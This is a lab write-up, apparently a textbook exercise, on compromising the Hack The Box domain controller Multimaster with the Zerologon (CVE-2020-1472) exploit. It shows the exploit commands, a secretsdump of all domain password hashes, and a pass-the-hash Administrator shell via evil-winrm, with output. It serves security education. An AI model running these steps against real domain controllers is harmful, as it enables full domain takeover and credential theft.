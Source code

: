# Exercise: Case Study Multimaster



This machine illustrates that even on Hack The Box, there are sometimes security misconfigurations and unintended vulnerable components. The machine is a domain controller in which the initial vulnerability is through a SQL injection. However, it turned out that the machine was released a few weeks before CVE-2020-1472 was disclosed and so it was actually vulnerable to the Zerologon attack. To test this, you can use the proof of concept of this attack:

```bash
┌─[rin@parrot]─[~/boxes/Multimaster]
└──╼ $git clone https://github.com/dirkjanm/CVE-2020-1472
To execute, you simply give the name of the domain and the IP address of the domain controller:
┌─[rin@parrot]─[~/boxes/Multimaster/CVE-2020-1472]
└──╼ $python3 cve-2020-1472-exploit.py MULTIMASTER 10.10.10.179
Performing authentication attempts...
============================================================================================================================
Target vulnerable, changing account password to empty string
Result: 0
Exploit complete!
```

Now that the machine password has been set to an empty string, you can use Impacket's secretsdump.py that will collect all of the domain's users and password hashes:

```bash
┌─[✗]─[rin@parrot]─[~/boxes/Multimaster/CVE-2020-1472]
└──╼ $secretsdump.py -just-dc -no-pass MULTIMASTER\$@10.10.10.179
Impacket v0.9.22.dev1+20200915.115225.78e8c8e4 - Copyright 2020 SecureAuth Corporation
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:69cbf4a9b7415c9e1caf93d51d971be0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:06e3ae564999dbad74e576cdf0f717d3:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
MEGACORP.LOCAL\svc-nas:1103:aad3b435b51404eeaad3b435b51404ee:fe90dcf97ce6511a65151881708d6027:::
MEGACORP.LOCAL\tushikikatomo:1110:aad3b435b51404eeaad3b435b51404ee:1c9c8bfd28d000e8904f23c280b25d21:::
MEGACORP.LOCAL\andrew:1111:aad3b435b51404eeaad3b435b51404ee:9e63ebcb217bf3c6b27056fdcb6150f7:::
MEGACORP.LOCAL\lana:1112:aad3b435b51404eeaad3b435b51404ee:3c3c292710286a539bbec397d15b4680:::
MEGACORP.LOCAL\alice:1601:aad3b435b51404eeaad3b435b51404ee:19b44ab9ec562fe20b35ddb7c6fc0689:::
<SNIP>
```

Once you have these hashes, you can use Administrator's account to remote access the machine using evil-winrm

```bash
┌─[✗]─[rin@parrot]─[/opt/evil-winrm]
└──╼ $evil-winrm -u Administrator -H 69cbf4a9b7415c9e1caf93d51d971be0 -i 10.10.10.179
Evil-WinRM shell v2.3
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
megacorp\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

Of course, this attack will have impacted the domain controller significantly by resetting the machine account's password to an empty string. If this was a machine with other Hack The Box users accessing it, you would want to avoid doing something that would significantly impact their experience. As a real attacker, this would send alerts flying and so that would be a consideration as well. Nevertheless, this is an exploit that is being used in the wild as I am writing this.





























1. 

